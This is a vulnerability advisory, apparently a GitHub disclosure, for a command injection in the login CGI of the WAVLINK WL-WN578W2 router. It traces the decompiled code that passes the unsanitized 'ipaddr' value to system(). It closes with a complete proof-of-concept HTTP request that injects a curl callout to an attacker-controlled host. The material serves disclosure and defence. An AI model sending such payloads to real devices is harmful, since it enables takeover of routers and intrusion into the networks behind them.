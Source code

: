 # WAVLINK WL-WN578W2 M78W2\_V221110 Command Injection in Login Module

PS:



1.  Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device (WAVLINK WL-WN578W2) for accurate vulnerability verification.

2.  This command injection vulnerability requires **authenticated access**. The `password` parameter uses a dynamic encryption method (value changes with requests/logins), so attackers must first obtain valid credentials or a captured encrypted `password` to exploit the vulnerability.

## Overview

A command injection vulnerability exists in the login module of WAVLINK WL-WN578W2 (firmware version: M78W2\_V221110). The vulnerability resides in the `ftext` function (entry point) and `sub_401340` function (core login logic) within the `login.cgi` file, which processes the `ipaddr` parameter without input sanitization. When submitting a POST request to the `/cgi-bin/adm.cgi` (a program for handling login requests on the device) endpoint with the `page=login` action, authenticated attackers can inject arbitrary system commands via the `ipaddr` parameter. This enables unauthorized execution of system commands, access to sensitive device information, or full compromise of the device.



![Vulnerability Overview Screenshot](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/](https://www.wavlink.com/) (official website)

*   **Product**: WAVLINK WL-WN578W2

*   **Firmware Version**: M78W2\_V221110 (Software version: M78W2\_V221110)

*   **Firmware Download**: Available via WAVLINK official website or device web management interface

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, a program for processing device login requests)

*   **Vulnerable Code**:


    *   `sub_401340` function in `login.cgi` (constructs and executes system commands)

*   **Vulnerability Type**: Command Injection

*   **CVE ID**: Pending

*   **Impact**:

1.  Execute arbitrary system commands on the device;

2.  Read sensitive files (e.g., device configuration, stored credentials);

3.  Modify device settings or plant malicious scripts;

4.  Pivot to internal networks (if the device acts as a gateway)

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability stems from improper input validation in the device’s login processing workflow. The `ipaddr` parameter—controlled by the user—is directly concatenated into a system command without filtering special characters, leading to command injection. Below is the detailed code flow and root cause analysis:

#### 1. Request Entry & Input Parsing (`ftext` Function)

The `ftext` function is the entry point for handling login-related requests, with key execution steps:



*   **Referer Check**: First calls `sub_403EDC` to verify the `HTTP_REFERER` header (to prevent cross-origin request forgery), but this does not block subsequent command injection.

*   **Request Body Reading**: Retrieves the `CONTENT_LENGTH` header to determine the size of the POST request body, allocates memory via `malloc`, and reads the entire request body into a buffer (`v6`) using `fgets`.

*   **Parameter Routing**: Parses the `page` parameter from the request body via `sub_4036B4` (a custom parameter-parsing function). When `page=login` (indicating a login action), the function invokes `sub_401340(v6, 0x400000)` to process core login logic, passing the full request body (containing `ipaddr`, `username`, `password`, etc.) to `sub_401340`.

#### 2. Core Login Logic & Command Injection (`sub_401340` Function)

The `sub_401340` function handles credential verification and post-login configuration, and contains the vulnerable code segment:



*   **Parameter Parsing**: Extracts the `ipaddr` parameter from the input buffer (passed by `ftext`) using `sub_4036B4("ipaddr", a1, 0)`, and stores the parsed value in the `v9` variable.

*   **Credential Verification**: Compares the encrypted `password` parameter from the request with the device’s stored credentials (retrieved via `wlink_uci_get_value`). Only after successful verification does the function proceed to the command construction step.

*   **Vulnerable Command Construction**: After passing credential checks, the function constructs a system command using `sprintf` and executes it via `system`:



```
memset(v35, 0, sizeof(v35));

// Concatenate "ipaddr" (v9) directly into the command string

sprintf(v35, "/sbin/applogin.sh del %s >/dev/null 2>&1", v9);&#x20;

system(v35); // Execute the unsanitized command
```



*   **Root Cause**: The `ipaddr` parameter (`v9`) is not filtered for command delimiters (e.g., `;` for command separation, `&&` for logical AND, `|` for pipe, `#` for comment). Attackers can use these delimiters to "break out" of the original `applogin.sh`` del` command context and append arbitrary malicious commands.



![Disassembly Snippet 1: Vulnerable Code Path](./imgs/2.png)



![Disassembly Snippet 2: Command Construction Flow](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` Command to Verify Execution

This PoC uses the `ipaddr` parameter to inject a `curl` command, which sends a request to an attacker-controlled server—proving successful command execution. A **valid encrypted **`password` (captured via legitimate login) is required.

#### Full PoC HTTP Request



```
POST /cgi-bin/login.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 300
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

newUI=1&page=login&username=admin&langChange=0&ipaddr=%3A%3Affff%3A192.168.10.154;curl http://192.168.10.154:1234#&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&wizardpage=wizard.shtml&hostname=192.168.10.1&key=M55373357&password=a870e4ba57ee340c2c29f6e7dbd17abb&lang_select=cn
```

#### PoC Execution Results



*   **Failure (Wrong Password Hash)**: If the `password` parameter uses an invalid/incorrect encrypted hash, the device rejects the login request before reaching the command execution step. No `curl` request is sent to the attacker’s server, and the PoC fails.



![PoC Result: Wrong Password Hash (Failure)](./imgs/4.png)



*   **Success (Right Password Hash)**: If the `password` parameter uses a valid encrypted hash, the device passes credential verification, executes the injected `curl` command, and the attacker’s server records the request.



![PoC Result: Right Password Hash (Success)](./imgs/5.png)


